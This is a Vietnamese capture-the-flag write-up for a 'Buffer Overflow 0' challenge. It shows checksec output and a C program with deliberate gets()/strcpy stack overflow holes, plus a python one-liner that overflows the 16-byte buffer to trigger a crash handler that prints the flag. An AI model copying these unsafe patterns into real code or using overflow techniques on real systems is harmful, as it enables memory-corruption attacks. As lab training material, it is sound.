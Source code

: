 # Buffer Overflow 0

## Description

> Let's start off simple, can you overflow the correct buffer?

## Solution

Hãy nhìn qua binary xem nó có gì:

```bash
➜  BOF_0 file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b53f59f147e1b0b087a736016a44d1db6dee530c, for GNU/Linux 3.2.0, not stripped
➜  BOF_0 checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   84 Symbols        No    0               4               vuln
```

Một file ELF 32-bit và không có Stack Canary

Hãy xem qua source code có gì:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

&#x20;Ở function **sigsegv\_handler()**

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Ta thấy  “SIGSEGV” là viết tắt cho **segmentation fault,** là một lỗi được tạo ra bởi phần cứng bảo vệ bộ nhớ mỗi khi nó cố gắng truy cập một địa chỉ bộ nhớ mà bị hạn chế hoặc không tồn tại. Nếu cờ **printf()** nằm trong **sigsegv\_handler()**, thì chúng ta có thể nghĩ đến việc cách kích hoạt **segmentation fault**.

Tiếp tục với **main()** thì function này dùng **gets()** function, một function khá nguy hiểm vì nó cho phép chúng ta nhập input mà không kiểm tra độ dài của nó. Chính vì thế mà chúng ta có thể nhập vượt quá 100 bytes và chuyển 100 bytes input nào vào function **vuln().** Input của chúng ta có thể ghi đè 16 bytes **buf2** trong vuln() và có thể dẫn đến **segmentation fault**

Vì vậy ta có thể thử cho input với độ dài là 16 bytes trước sau đó tăng lên mỗi lần 4 bytes một cho đến khi nó gây lỗi

```bash
➜  BOF_0 python3 -c "print('A'*(16+3))" | ./vuln
Input: The program will exit now
➜  BOF_0 python3 -c "print('A'*(16+4))" | ./vuln
Input: FLAG{helloiloveyou}
```
